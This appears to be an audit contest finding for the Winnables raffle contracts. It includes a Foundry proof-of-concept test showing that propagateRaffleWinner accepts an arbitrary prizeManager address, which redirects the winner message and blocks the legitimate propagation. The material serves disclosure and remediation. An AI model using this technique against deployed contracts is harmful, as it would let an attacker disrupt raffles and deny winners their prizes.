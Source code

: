 Harsh Merlot Bird

Medium

# No authorized check for msg.sender and prizeManager param in propagateRaffleWinner during message propagation to the prizeManager

## Summary
- No authorized check for msg.sender and prizeManager param in propagateRaffleWinner

## Vulnerability Detail
### poc 
```solidity
//// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import {WinnablesPrizeManager} from "contracts/WinnablesPrizeManager.sol";
import {WinnablesTicketManager} from "contracts/WinnablesTicketManager.sol";
import {WinnablesTicket} from "contracts/WinnablesTicket.sol";
import {Test, console2} from "forge-std/Test.sol";
import {IRouterClient, WETH9, LinkToken, BurnMintERC677Helper} from "@chainlink/local/src/ccip/CCIPLocalSimulator.sol";
import {CCIPLocalSimulator} from "@chainlink/local/src/ccip/CCIPLocalSimulator.sol";
import {ECDSA} from "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract Aud is Test {
    using ECDSA for bytes32;

    WinnablesPrizeManager internal wpm;
    WinnablesTicketManager internal wtm;
    WinnablesTicket internal t;
    CCIPLocalSimulator public ccipLocalSimulator;
    uint64 public destinationChainSelector;
    IRouterClient sourceRouter;
    IRouterClient destinationRouter;
    WETH9 wrappedNative;
    LinkToken linkToken;
    BurnMintERC677Helper ccipBnM;
    BurnMintERC677Helper ccipLnM;

    address api = 0xbB644dbda99AA52c86411cD75c07b78f0986B790;
    uint256 apiPk = 0x0f9fc2463717b6c2f779f12f7b950d4bd41a0b7d0a59d42d70a54d20c9298eb8;
    address user01 = makeAddr("user01");
    address user02 = makeAddr("user02");
    address user03 = makeAddr("user03");

    function setUp() public {
        ccipLocalSimulator = new CCIPLocalSimulator();

        (destinationChainSelector, sourceRouter, destinationRouter, wrappedNative, linkToken, ccipBnM, ccipLnM) =
            ccipLocalSimulator.configuration();

        t = new WinnablesTicket();
        wpm = new WinnablesPrizeManager(address(linkToken), address(destinationRouter));
        wtm = new WinnablesTicketManager(
            address(linkToken), address(this), 8403, bytes32(abi.encode("")), address(t), address(sourceRouter)
        );
        t.setRole(address(wtm), 1, true);
        wtm.setCCIPCounterpart(address(wpm), destinationChainSelector, true);
        wtm.setRole(api, 1, true);
        wpm.setCCIPCounterpart(address(wtm), destinationChainSelector, true);
    }

    ///create raffle, buy tickets , draw winner , withdraw win
    function test_improper_propagate() external {
        wpm.lockETH{value: 10 ether}(address(wtm), destinationChainSelector, 1, 10 ether);
        wtm.createRaffle(
            1, uint64(block.timestamp), uint64(block.timestamp + 24 hours), uint32(2500), uint32(5000), uint32(1500)
        );

        bytes memory _sig1 = _apiBuy(user01, wtm.getNonce(user01), 1, 1000, block.number, 1 ether);
        deal(user01, 1 ether);
        vm.prank(user01);
        wtm.buyTickets{value: 1 ether}(1, uint16(1000), block.number, _sig1);

        bytes memory _sig2 = _apiBuy(user02, wtm.getNonce(user02), 1, 1500, block.number, 1 ether);
        deal(user02, 1 ether);
        vm.prank(user02);
        wtm.buyTickets{value: 1 ether}(1, uint16(1500), block.number, _sig2);

        bytes memory _sig3 = _apiBuy(user03, wtm.getNonce(user03), 1, 1400, block.number, 1 ether);
        deal(user03, 1 ether);
        vm.prank(user03);
        wtm.buyTickets{value: 1 ether}(1, uint16(1400), block.number, _sig3);

        //todo how does VRFConsumerBaseV2 work in depth and how can it affect propagate
        skip(1.5 days);
        wtm.drawWinner(1);
        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = uint256(112233445566);
        //simulate fufill
        wtm.rawFulfillRandomWords(32, randomWords);
        wtm.propagateRaffleWinner(address(this), destinationChainSelector, 1);
        vm.expectRevert();
        wtm.propagateRaffleWinner(address(wpm), destinationChainSelector, 1);
    }
    
    function requestRandomWords(
        bytes32 keyHash,
        uint64 subId,
        uint16 minimumRequestConfirmations,
        uint32 callbackGasLimit,
        uint32 numWords
    ) external returns (uint256 requestId) {
        requestId =
            uint256(bytes32(abi.encode(keyHash, subId, minimumRequestConfirmations, callbackGasLimit, numWords)));
    }

    function _apiBuy(
        address _buyer,
        uint256 _nonce,
        uint256 raffleId,
        uint16 ticketCount,
        uint256 blockNumber,
        uint256 value
    ) internal returns (bytes memory signature) {
        bytes32 digest = keccak256(abi.encodePacked(_buyer, _nonce, raffleId, ticketCount, blockNumber, value))
            .toEthSignedMessageHash();

        vm.startPrank(api);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(uint256(apiPk), digest);
        signature = abi.encodePacked(r, s, v);
        vm.stopPrank();
    }
}

```
- After the raffle has been fufilled from chainlink vrf(https://snowtrace.io/address/0xd5D517aBE5cF79B7e95eC98dB0f0277788aFF634/contract/43114/code?chainid=43114), supplying the proof and request params, propagateRaffleWinner, doesnt check if the prizeManager used is the correct one, a malicious user can use a crafted prizeManager to receive the chainlink ccip message instead on the target chain or anychain supplied 
- This would cause propagateRaffleWinner to always to revert whenever the correct prizeManager is supplied since the raffle status has changed [here](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L336)
```solidity
function propagateRaffleWinner(address prizeManager, uint64 chainSelector, uint256 raffleId) external {
        Raffle storage raffle = _raffles[raffleId];
        if (raffle.status != RaffleStatus.FULFILLED) revert InvalidRaffleStatus();
        raffle.status = RaffleStatus.PROPAGATED;
        address winner = _getWinnerByRequestId(raffle.chainlinkRequestId);

        _sendCCIPMessage(
            prizeManager, chainSelector, abi.encodePacked(uint8(CCIPMessageType.WINNER_DRAWN), raffleId, winner)
        );
        IWinnablesTicket(TICKETS_CONTRACT).refreshMetadata(raffleId);
        unchecked {
            _lockedETH -= raffle.totalRaised; //@audit here
        }
}
```
## Impact
Since the lockedETH storage var is also been deducted here , this would automatically cause the function uncallable
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L343
```solidity
 unchecked {
            _lockedETH -= raffle.totalRaised;
        }
```
## Code Snippet
- https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L334
## Tool used
- vscode
- manual Review

## Recommendation
- prizeManager on the chain where the prize would be locked should be checked for or stored in the storage nd be checked for msg.sender is checked